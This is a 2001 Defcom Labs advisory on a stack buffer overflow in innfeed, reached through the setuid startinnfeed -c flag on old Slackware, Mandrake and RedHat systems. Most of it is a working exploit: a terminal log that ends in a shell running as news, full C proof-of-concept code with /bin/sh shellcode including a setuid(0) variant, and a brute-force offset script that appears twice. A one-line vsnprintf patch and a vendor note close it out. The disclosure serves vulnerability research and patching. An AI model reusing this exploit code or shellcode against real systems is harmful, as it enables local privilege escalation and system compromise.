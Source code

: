 INFO
----

    ======================================================================
                     Defcom Labs Advisory def-2001-19

                    innfeed buffer overflow

    Author: Enrique A. Sanchez Montellano <@defcom.com>
    Author: Alex Hernandez <alex.hernandez@defcom.com>
    Release Date: 2001-04-18
    ======================================================================
    ------------------------=[Brief Description]=-------------------------
    innfeed is a program that implements the NNTP protocol for transerring
    news between computers.

    Due to no bounds checking on the innfeed program a buffer overflow
    occurs while using the -c flag, thus rendering complete control
    of the stack. And rendering news uid and gid.

    ------------------------=[Affected Systems]=--------------------------
    Linux:
       Slackware 7.1 and older versions.
       Mandrake 7.0 and older versions.
       RedHat 7.2 and older versions.

    ----------------------=[Detailed Description]=------------------------
    Due to no bounds checking on the logOrPrint() function on the vsprint()
    a stack overflow occurs thus rendering the stack. The user then is able
    to gain news id, in wich he can the trojan binaries to gain further
    access to upgrade his priviledges.

    Users trusted to group id can gain further access to news uid thus
    gaining owner priviledges on the files and being able to trojan them
    in some cases. And if root runs those binaries a root compromise might
    be posible.

    Offending code:
    ---------------

    vsprintf (buffer,fmt,ap) ;

    Example of exploitation:
    ------------------------

    nahual@shell:~$ ls -al /usr/lib/news/bin/innfeed
    -r-xr-x---   1 news     news       213124 Jun 14  2000
    /usr/lib/news/bin/innfeed*
    nahual@shell:~$ ls -al /usr/lib/news/bin/startinnfeed
    -r-sr-x---   1 root     news        40796 Jun 14  2000
    /usr/lib/news/bin/startinnfeed*
    nahual@shell:~$ id
    uid=1001(nahual) gid=100(users) groups=100(users),13(news)
    nahual@shell:~$ ./x-innfeed
    [ + ] innfeed buffer overflow (passed to startinnfeed) [ + ]
    ------------------------------------------------------------
    [ + ] Found by:

    [ + ] Alex Hernandez (alex.hernandez@defcom.com)
    [ + ] Enrique Sanchez (@defcom.com ... Yes is just @defcom.com)
    [ + ] Defcom Labs @ Spain ....
    [ + ] Coded by Enrique A. Sanchez Montellano (El Nahual)

    [ + ] Using address 0xbffff9e4
    [ + ] Starting exploitation ...

    bash$ id
    uid=9(news) gid=13(news) groups=100(users),13(news)
    bash$
    ----

    Proof of concept code:
    ----------------------

    --- x-startinnfeed.c ---
    /*
      x-innfeed.c

      Buffer overflow in innfeed being called from startinnfeed renders
    uid(news) gid(news), startinnfeed is suid root so I have to also check
    if I can manage to get root out of this ....

      Enrique A. Sanchez Montellano
      (@defcom.com ... Yes is only @defcom.com)
    */

    #include <stdio.h>
    #include <unistd.h>
    #include <string.h>
    #include <stdlib.h>

    #define OFFSET  0
    #define ALIGN   0
    #define BUFFER  470

    // MANDRAKE, REDHAT, etc....

    #ifdef REDHAT
    /* optimized shellcode ;) (got rid of 2 bytes from aleph1's) */
    //static char shellcode[]=
    //"\xeb\x15\x5b\x89\x5b\x08\x31\xc0\x88\x43\x07\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x31\xd2\xcd\x80\xe8\xe6\xff\xff\xff/bin/sh";
    char shellcode[] = "\x31\xdb\x89\xd8\xb0\x17\xcd\x80" /*setuid(0) */
                 "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c"
                 "\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb"
                 "\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh";

    #endif

    #ifdef SLACKWARE
    /* optimized shellcode for slackware 7.0 (non setuid(getuid()) shell) */
    static char shellcode[]=
    "\xeb\x15\x5b\x89\x5b\x0b\x31\xc0\x88\x43\x0a\x89\x43\x0f\xb0\x0b\x8d\x4b\x0b\x31\xd2\xcd\x80\xe8\xe6\xff\xff\xff/bin/bash1";
    #endif

    unsigned long get_sp(void) {
      __asm__("movl %esp, %eax");
    }

    void usage(char *name) {
      printf("Usage: %s <offset> <align> <buffer>\n", name);
      printf("Defcom Labs @ Spain ...\n");
      printf("Enrique A. Sanchez Montellano (@defcom.com)\n");
      exit(0);
    }

    int main(int argc, char **argv) {
      char *code;
      int offset = OFFSET;
      int align = ALIGN;
      int buffer = BUFFER;
      unsigned long addr;
      int i;

      if(argc > 1) offset = atoi(argv[1]);
      if(argc > 2) align = atoi(argv[2]);
      if(argc > 3) buffer = atoi(argv[3]);

      code = (char *)malloc(buffer);

      printf("[ + ] innfeed buffer overflow (passed to startinnfeed) [ + ]\n");
      printf("------------------------------------------------------------\n");
      printf("[ + ] Found by: \n\n[ + ] Alex Hernandez
    (alex.hernandez@defcom.com) \n[ + ] Enrique Sanchez (@defcom.com ... Yes
    is just @defcom.com)\n");
      printf("[ + ] Defcom Labs @ Spain ....\n");
      printf("[ + ] Coded by Enrique A. Sanchez Montellano (El Nahual)\n\n");

      addr = get_sp() - offset;

      printf("[ + ] Using address 0x%x\n", addr);

      for(i = 0; i <= buffer; i += 4) {
       *(long *)&code[i] = 0x90909090;
      }

      *(long *)&code[buffer - 4] = addr;
      *(long *)&code[buffer - 8] = addr;

      memcpy(code + buffer - strlen(shellcode) -8 - align, shellcode,
    strlen(shellcode));

      printf("[ + ] Starting exploitation ... \n\n");

      // REDHAT, MANDRAKE ...
    #ifdef REDHAT
      execl("/usr/bin/startinnfeed", "/usr/bin/startinnfeed", "-c", code, NULL);
    #endif

      // SLACKWARE
    #ifdef SLACKWARE
      execl("/usr/lib/news/bin/startinnfeed",
    "/usr/lib/news/bin/startinnfeed", "-c", code, NULL);
    #endif

      return 0;
    }

    --- x-startinnfeed.c ---

    --- brute.sh ---
    #!/bin/ksh
    L=-2000
    O=40
    while [ $L -lt 12000 ]
    do
    echo $L
    L=`expr $L + 1`
    ./x-startinnfeed $L
    done
    --- brute.sh ---

    ---------------------------=[Workaround]=-----------------------------
    Defcom has issued a patch for the vulnerability:

    ---innfeed-overflow.patch---
    210c210
    <       vsprintf (buffer,fmt,ap) ;
    ---
     >       vsnprintf (buffer,512,fmt,ap) ;
    ---innfeed-overflow.patch---

    The recomended action is to upgrade to version 2.3.1 wich is not
    vulnerable to this attack due that you have to be news to execute the
    script.

    root should not run any of this commands as an administrative task
    trusted users should do this.

    -------------------------=[Vendor Response]=--------------------------
    inn-bugs, Katshiro Kondou, and Russ Allbery responded in a fast
    and swift way, answering questions.

    Thank you to him and all the INN team for their time and responses.
    ======================================================================
            This release was brought to you by Defcom Labs @ Spain

                 labs@defcom.com             www.defcom.com
    ======================================================================

brute.sh
--------


    #!/bin/ksh
    L=-2000
    O=40
    while [ $L -lt 12000 ]
    do
    echo $L
    L=`expr $L + 1`
    ./x-startinnfeed $L
    done